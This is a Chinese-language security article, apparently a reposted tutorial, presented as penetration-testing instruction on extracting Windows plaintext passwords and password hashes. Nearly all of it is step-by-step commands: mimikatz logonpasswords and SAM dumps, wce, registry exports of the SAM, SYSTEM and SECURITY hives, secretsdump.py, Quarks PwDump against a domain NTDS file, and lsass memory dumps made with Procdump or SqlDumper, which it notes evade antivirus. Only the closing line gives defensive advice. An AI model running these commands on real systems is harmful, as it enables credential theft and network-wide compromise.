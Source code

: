 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [baijiahao.baidu.com](https://baijiahao.baidu.com/s?id=1626592610700813942&wfr=spider&for=pc)

渗透测试，可用于测试企业单位内网的安全性，而获取 Windows 的明文或 Hash 往往是整个渗透测试过程中重要的一环，一旦某台机器的密码在内网中是通用的，那么该内网的安全性将会非常糟糕。

本期安仔课堂，ISEC 实验室的李老师为大家介绍一些抓取 Windows 明文或 Hash 的方式。

一、mimikatz

mimikatz 是一款轻量级的调试神器，功能非常强大，其中最常用的功能就是抓取明文或 Hash。

用法：

mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"

![](https://pics0.baidu.com/feed/1f178a82b9014a904ef02bfd2d5a4916b21bee52.jpeg?token=0d567a1761c9f9f93f54177b0696c0f4&s=EDE63A6253B7B3CE48DD05090000E0C1)图 1

另外，需要注意的是，当系统为 win10 或 2012R2 以上时，默认在内存缓存中禁止保存明文密码，如下图，密码字段显示为 null，此时可以通过修改注册表的方式抓取明文，但需要用户重新登录后才能成功抓取。

![](https://pics4.baidu.com/feed/30adcbef76094b360a5df46826e10cdd8c109d1e.jpeg?token=8e5def16f7ff635a374a6a8b897dde46&s=256052225BBEBEC8144D98010000E0C0)图 2

修改注册表命令：

![](https://pics2.baidu.com/feed/0823dd54564e92587ab8b0b41aafa15ccdbf4e89.jpeg?token=3e5e0b18d681e4c13cd3773d4208ad8f)图 3

修改成功后，等用户下次再登录的时候，重新运行 mimikatz，即可抓到明文密码，如需恢复原样，只需将上图 REG_DWORD 的值 1 改为 0 即可。

![](https://pics5.baidu.com/feed/2fdda3cc7cd98d10b150efc3a512c80a7aec906a.jpeg?token=1518c0251f826330c8e662aa629ec1a2&s=E8E23A6293E1B3595EED3D02000070C0)图 4

二、Getpass

Getapss 是由闪电小子根据 mimikatz 编译的一个工具，可以直接获取明文密码，直接运行 Getpass.exe 即可。

![](https://pics5.baidu.com/feed/e850352ac65c1038b99679df373ce317b17e89f1.jpeg?token=c64d03a3519e67dac8c3caf55ccb9e96&s=ED663A625BB4B65946F1D40F000030C1)图 5

三、Wce

Wce 是一款 Hash 注入神器，不仅可以用于 Hash 注入，也可以直接获取明文或 Hash。

抓明文：wce.exe -w

![](https://pics0.baidu.com/feed/b58f8c5494eef01f5743183863d3e921bd317dad.jpeg?token=479bc5a8aa3658ea38bcb0d5bebf2770&s=69E23A62EBA1B3704E51BD06000060C1)图 6

抓 Hash：wce.exe -l

![](https://pics7.baidu.com/feed/f703738da97739122912cb9b7b34f61c377ae2c2.jpeg?token=bc99da9f075f36cdea30ae3b8c76d3e7&s=CDE23A62CDE48F7006D5B90F0000E0C1)图 7

四、 Powershell

当目标系统存在 powershell 时，可直接一句 powershell 代码调用抓取，前提是目标可出外网，否则需要将 ps1 脚本放置内网之中。

抓明文:

![](https://pics5.baidu.com/feed/8601a18b87d6277fdeaed83faf156f34e924fc2f.jpeg?token=8264a31349d576bd6eeb1173bb414cf6)图 8

![](https://pics5.baidu.com/feed/c75c10385343fbf2e5b385b03653ba8464388fb3.jpeg?token=59b07ac5797bf2c302c99edb994e4889&s=EDE03A625BB4B7CA1EF898070000A0C1)图 9

抓 Hash:

![](https://pics4.baidu.com/feed/f11f3a292df5e0fe7af67cbdd94d44ac5fdf7256.jpeg?token=8f850e48181f26eef001947d7af41e8b)图 10

![](https://pics4.baidu.com/feed/503d269759ee3d6db95ae773c03b1d264e4ade98.jpeg?token=dfab6ad66e438713bbeccfcbbf979437&s=89E07A22E98CBF7046F85D03000080C1)图 11

五、 Sam

1. 使用注册表来离线导出 Hash

reg save HKLM\SYSTEM system.hiv

reg save HKLM\SAM sam.hiv

reg save hklm\security security.hiv

导出后可以使用 cain 导入 system.hiv、security.hiv 获取缓存中的明文信息。

![](https://pics0.baidu.com/feed/cc11728b4710b912e5e7647347d08c07934522ce.jpeg?token=805336914ec76c5742f7939f9e4218dc&s=58843D73131C71C84AE155C40000B0B1)图 12

或者导入 sam.hiv 和 system.hiv 的 syskey 获取密码 Hash。

![](https://pics5.baidu.com/feed/cefc1e178a82b9017370224df5a0d9733812efa5.jpeg?token=ad4ca4ec23c707eeafcb03300c232b02&s=1E84EB03400E60EA4AE154CD0000E0B1)图 13

除了 cain，也可以使用 mimikatz 加载 sam.hiv 和 sam.hiv 来导出 Hash。

用法：mimikatz.exe "lsadump::sam /system:system.hiv /sam:sam.hiv" exit

![](https://pics0.baidu.com/feed/96dda144ad345982d8e8de368ad941a9caef84e1.jpeg?token=eacb22980cf7a0e186c7c72513d976d1&s=2DE27A225BB4B2CE5050B4060000E0C1)图 14

或者使用 impacket 套件中的 secretsdump.py 脚本去解密，也是可以的。

用法：python secretsdump.py -sam sam.hiv -security security.hiv -system system.hiv LOCAL

![](https://pics0.baidu.com/feed/5366d0160924ab1863162166b3d796c97b890b15.jpeg?token=968df4ec54e5b4772f59091454edc920&s=5B29FB4ADBA19B604E45E603000070C6)图 15

2. 使用 mimikatz 在线导出 sam 的 Hash

用法：mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"

![](https://pics6.baidu.com/feed/472309f79052982225f3fe6452e70bcf0b46d403.jpeg?token=162a00d9e0f9fbf204a5ae0094e187d9&s=EDE23A6253B4B7CA02F0B4030000E0C1)图 16

六、PwDump7

Pwdump7 可以在 CMD 下直接提取系统中用户的密码 Hash，直接运行即可。

![](https://pics6.baidu.com/feed/8326cffc1e178a82786507bf722e0389a977e802.jpeg?token=3664043a187544d9d125032c76ba30b9&s=ADE27A2297F098610CDDF10B0000A0C1)图 17

七、 Quarks PwDump

Quarks PwDump 是一款开放源代码的 Windows 用户凭据提取工具，它可以抓取 Windows 平台下多种类型的用户凭据，包括：本地帐户、域帐户、缓存的域帐户和 Bitlocker。

用法：

导出本地用户 Hash：

Quarks PwDump.exe --dump-hash-local

![](https://pics6.baidu.com/feed/279759ee3d6d55fb4c880128e80f3f4e20a4dd20.jpeg?token=b1bfc2d92beea2fbb22359166707e8d3&s=70A191548BB988CA426B8A8C0200708F)图 18

配合 Ntdsutil 导出域用户 Hash：

QuarksPwDump –dump-hash-domain –ntds-file c:\ntds_save.dit

![](https://pics4.baidu.com/feed/0df3d7ca7bcb0a468f2b6f6bee4e86206b60af0d.jpeg?token=548d0518025b40794341fbd5a19e8409&s=7021B1545BBD8ACC5663CF8C0200308F)图 19

八、 Procdump + mimikatz

Procdump 是微软出品的一个小工具，具备一定的免杀功能。

用法：

1. 生成 dump 文件

Procdump.exe -accepteula -ma lsass.exe lsass.dmp

![](https://pics3.baidu.com/feed/0b55b319ebc4b74569945dec4bd16e138b8215fd.jpeg?token=6c5f46008893f4ac857d23b33d72555b&s=EDE03A66DFE5BE511C599C0B0000E0C1)图 20

2.mimikatz 加载 dump 文件

mimikatz.exe"sekurlsa::minidumplsass.dmp""sekurlsa::logonPasswords full""exit"

![](https://pics3.baidu.com/feed/fd039245d688d43f218697eafb33a21f0ef43ba8.jpeg?token=de5d8a65cef3873a9ff8a3ac23259ba8&s=CDE03A621B348FCA56E5BD090000B0C1)图 21

九、SqlDumper + mimikatz

SqlDumper.exe 是从 SQL Server 安装目录下提取出来的，功能和 Procdump 相似，并且也是微软出品的，体积远小于 Procdump，也具备一定的免杀功能。SqlDumper.exe 默认存放在 C:\Program Files\Microsoft SQL Server\number\Shared，number 代表 SQL Server 的版本，参考如下：

140 for SQL Server 2017

130 for SQL Server 2016

120 for SQL Server 2014

110 for SQL Server 2012

100 for SQL Server 2008

90 for SQL Server 2005

如果目标机器没有安装 SQL Server，可以自己上传一个 SqlDumper.exe。

用法：

1. 查看 lsass.exe 的 ProcessID

tasklist /svc |findstr lsass.exe

![](https://pics4.baidu.com/feed/5bafa40f4bfbfbedb6abe1cbfcdd8732aec31f41.jpeg?token=692334a7a46474fd4c02de7aec21b0b7)图 22

2. 导出 dump 文件

Sqldumper.exe ProcessID 0 0x01100

![](https://pics6.baidu.com/feed/b64543a98226cffcec3e93d53c2c3a94f603ea77.jpeg?token=1ef2e0f5705355ab3c55dc76657c9f7b&s=EDE03A62D3F0BE691EF9110B0000E0C1)图 23

3.mimikatz 加载 dump 文件

mimikatz.exe"sekurlsa::minidumpSQLDmpr0001.mdmp""sekurlsa::logonPasswords full""exit"

![](https://pics0.baidu.com/feed/a8773912b31bb0519f4428f1b357aab04bede0bd.jpeg?token=cf7336e3c821638e3e949a061b1bc5da&s=E9E03A621BB6B7CA1EC1B40A0000E0C1)图 24

成功导出明文或 Hash 破解后，一旦密码通用，将会威胁整个内网。因此，内网管理人员应尽量避免使用通用密码，并及时安装防护软件。